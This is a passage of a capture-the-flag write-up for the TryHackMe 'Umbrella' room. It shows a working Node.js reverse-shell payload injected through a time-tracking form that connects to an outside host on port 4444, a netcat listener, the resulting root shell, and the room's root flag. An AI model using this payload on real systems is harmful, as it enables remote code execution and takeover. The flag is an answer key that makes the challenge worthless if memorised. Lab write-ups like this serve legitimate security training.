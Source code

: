 ```bash

app.listen(8080, () => {
	console.log("App listening on port 8080")
});
```

<h3>TargetIP:8080</h3>

![image](https://github.com/user-attachments/assets/0db93ea8-b3cf-4721-bb30-d5d513d02c36)

<p><code>/auth</code></p>

![image](https://github.com/user-attachments/assets/b113eeb6-ac12-4904-a244-8532b964a7e3)

<p>
  
- entered <code>7</code> + <code>3</code>
- entered <code>5</code><br>
- all summed up with claire-r´s time spent</p>

![image](https://github.com/user-attachments/assets/a9698841-c5a8-4649-9347-e71fcc4a710e)

```bash
:~/Umbrella# nc -nlvp 4444
```

<p><em>payload</em></p>

```bash
(function(){ var net = require("net"), cp = require("child_process"), sh = cp.spawn("/bin/sh", []); var client = new net.Socket(); client.connect(4444, "10.10.37.217", function(){ client.pipe(sh.stdin); sh.stdout.pipe(client); sh.stderr.pipe(client); }); return /a/;})();
```

![image](https://github.com/user-attachments/assets/b47b1f7a-9c1e-4e1e-8ecc-bf1b57671ada)

<p>

- clicked <code>Submit</code><br>


```bash
:~/Umbrella# nc -nlvp 4444
Listening on 0.0.0.0 4444
Connection received on TargetIP9 42418
id
uid=0(root) gid=0(root) groups=0(root)
pwd
/usr/src/app
```

<br>

> 1.3. <em>What is the root flag?</em><br><a id='1.3'></a>
>> <strong><code>THM{1e15fbe7978061c6bb1924124fd9eab2}</code></strong><br>


<br>

